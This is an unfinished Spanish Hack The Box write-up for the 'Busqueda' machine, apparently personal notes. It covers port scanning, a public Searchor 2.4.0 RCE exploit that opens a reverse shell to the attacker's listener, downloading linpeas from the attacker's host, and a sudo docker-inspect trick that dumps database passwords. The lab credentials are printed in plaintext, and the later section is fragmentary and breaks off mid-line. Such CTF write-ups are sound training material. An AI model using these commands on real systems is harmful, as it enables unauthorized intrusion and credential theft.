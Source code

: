 ```yaml
---
title: Writeup busqueda - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - busqueda
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina busqueda en Hack The Box.
keywords:
  - writeup busqueda
  - hack the box busqueda
  - resolución máquina busqueda
  - busqueda hack the box
  - htb busqueda
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Busqueda)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=QMIQ5e4sjVQ)|[Parte2](https://www.youtube.com/watch?v=DztFFuapoDU)
- 🧠 **Explicación resumida**: 

# TODAVIA NO TERMINAMOS LA MAQUINA

---

#nmap #ping #easy #linux #startlab #/etc/hosts #whatweb #wappalyzer #searchor240 #git #gitclone #nc-nlvp443 #tratamientotty #cd

----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

Se puede utilizar la version automatizada que tenemos creada con [[startlab]] o si no de forma manual con los siguientes comandos

```shell
ping -c 1 IP
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn IP -oG allPortsTCP
extractPorts allPortsTCP
nmap -sCV -pPuertos IP -oN targetTCP
nmap -sU -n -Pn --top-ports 200 IP -oG allPortsUDP
extractPorts allPortsUDP
nmap -sU -sCV -pPuertos IP -oN targetUDP
```

*TTL:* Maquina Linux

*Puertos  TCP:*
	`22` [[ssh]]
	`80` HTTP
	
*Puertos UDP:*
	Solamente esta abierto el 68 de dhcpc y no nos sirve

![[Busqueda6.png]]
![[Busqueda7.png]]
![[Busqueda8.png]]

------
# Agregamos dominio al /etc/hosts

Vemos que la pagina nos envia a searcher.htb asi que lo vamos a cargar en el /etc/hosts
![[Busqueda1.png]]![[Busqueda2.png]]
```
10.129.88.165 searcher.htb
```

![[Busqueda4.png]]

Y listo ahora si nos carga la pagina

![[Busqueda5.png]]

------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://searcher.htb/
```

![[Busqueda9.png]]
![[Busqueda10.png]]
Ninguna informacion relevante


-------
# Intrusion a la maquina por [[searchor 2.4.0]]

Vemos al final de la pagina que esta corriendo searchor 2.4.0
![[Busqueda13.png]]

Asi que con [[git clone]] vamos a usar ``git clone https://github.com/twisted007/Searchor_2.4.0_RCE_Python`` para descargar el repositorio, luego con [[cd]] usamos `cd Searchor_2.4.0_RCE_Python` para entrar a la carpeta y ejecutamos el exploit `python3 searchor-2_4_0_RCE.py searcher.htb 10.10.16.84 443`
En los parametros vamos a colocar la pagina web victima y luego la ip/puerto donde vamos a estar en escucha con [[nc -nlvp 443]] para recibir la [[Reverse shell]]



![[Busqueda14.png]]

![[Busqueda15.png]]
Ya estamos dentro de la maquina victima como el usuario *svc*

-----
# [[Tratamiento de la TTY]]

--------
# Escalada de privilegios





Ubuntu 22.04.2 LTS
5.15.0-69-generic      kernel

 python3 -m http.server 80
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

wget http://10.10.16.84/linpeas.sh -outfile linpeas.sh
chmod +x linpeas.sh
![[Busqueda16.png]]



![[Busqueda17.png]]
http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git


![[Busqueda18.png]]
http://gitea.searcher.htb/cody/Searcher_site.git


![[Busqueda19.png]]


![[Busqueda20.png]]

csrfToken: 'up9irDbVMjy3b6FOb8NRGUzKVDU6MTc2MDQ1NjcwNTU3NTY5NTMwNA',


![[Busqueda22.png]]

![[Busqueda21.png]]

con las credenciales 
cody:jh1usoih2bkjaspwe92 que ganamos antes nos logeamoas

searchsploit gitea
![[Busqueda23.png]]
searchsploit -m multiple/webapps/49571.py

reutilizamos contraseñas y vemos que jh1usoih2bkjaspwe92 es la svc 

![[Busqueda24.png]]

sudo -l

https://docs.docker.com/engine/cli/formatting/
https://docs.docker.com/reference/cli/docker/container/inspect/
que adentro de la carpeta optscripts si corre el full-fheck pero afuera no, creo que es como un path hihacjking pero con scripts

sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect ls --format='{{json .}}' mysql_db


Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF"
MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh"+